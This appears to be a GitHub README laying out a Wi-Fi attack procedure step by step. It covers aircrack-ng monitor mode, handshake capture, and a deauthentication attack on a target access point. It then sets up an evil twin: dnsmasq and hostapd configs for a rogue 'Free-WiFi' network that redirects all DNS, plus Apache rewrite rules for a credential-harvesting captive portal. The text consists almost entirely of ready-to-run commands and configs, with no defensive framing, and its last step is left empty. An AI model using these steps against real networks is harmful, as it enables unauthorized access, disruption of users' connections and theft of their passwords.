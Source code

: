 # HacKingWiFi
## HacKingWiFi 
### Algorithm Commands to HacKing WiFi 

# [1] Choosing Wireless Adapter / Get Interface:
  - [1.1] Cheking for Wireless Network interface: `iwconfig`  
  - [1.2] Cheking for Wireless Network interface: `ifconfig`

---

# [2] Start Monitoring Mode & Checking Injection Option 
  - [2.1] Starting Monitor mode: `airmon-ng start $INTERFACE`
  - [2.2] Monitoring: `aireplay-ng --test $INTERFACE`

---
  
# [3] Scan Wireless’s Area
  - [3.1] Sniff Networks Area Information : `airodump-ng $INTERFACE`
  - [3.2] Start Capturing Packets: `airodump-ng --bssid $BSSID -c $CHANNEL_NUMBER -w $OUTPUT_NAME $INTERFACE`
  - [3.3] Inject Packets into Wireless Network: `aireplay-ng --deauth 10 -a $MAC_TARGET $INTERFACE`

---

# [4] Analysis Captured Files With WireShark:
  - [4.1] Start WireShark: `wireshark $OUTPUT_NAME.cap`
    - Looking for Authentication Files

---

# [5] Set Up Access point:
  - [5.1] Create dnsmasq Configuration files: `nano dnsmasq.conf`
```SHELL
#Set the wireless interface
interface=wlan0

#Set the IP range for the clients
dhcp-range=192.168.1.2,192.168.1.250,12h

#Set the gateway IP address
dhcp-option=3,192.168.1.1

#Set DNS server address
dhcp-option=6,192.168.1.1

#Redirect all requests to 192.168.1.1
address=/#/192.168.1.1
```
  - [5.2] Create hostpad Configuration file: `nano hostapd.conf` 
```SHELL
#Set wireless interface
interface=wlan0

#Set network name
ssid=Free-WiFi

#Set channel
channel=11

#Set driver
driver=nl80211
```
  - [5.3] Run Commands 1: `dnsmasq -C /directory_to_dnsmasq.conf`
  - [5.4] Run Commands 2: `hostapd /directory_to_hostapd.conf -B`
  - [5.5] `airbase-ng -e $WIRELESS_NETWORK -c $CHANNEL $INTERFACE` 

---

# [6] Setting up Captive Portal
  - [6.1] Download and Move Portal files to `/var/www/html`
  - [6.2] Add to end of file: `nano /etc/apache2/sites-enabled/000-default.conf`
```shell

<Directory "/var/www/html">
RewriteEngine On
RewriteBase /
RewriteCond %{HTTP_HOST} ^www\.(.*)$ [NC]
RewriteRule ^(.*)$ http://%1/$1 [R=301,L]

RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteRule ^(.*)$ / [L,QSA]
</Directory>

```
  - [6.3] 
 
 ---
 
 - [WiFi Hacking using Evil Twin Attacks and Captive Portals](https://github.com/Anlominus/Studies/tree/main/Udemy/IT%20%26%20Software/Network%20%26%20Security/Security%20HacKing/WiFi%20Hacking%20using%20Evil%20Twin%20Attacks%20and%20Captive%20Portals)
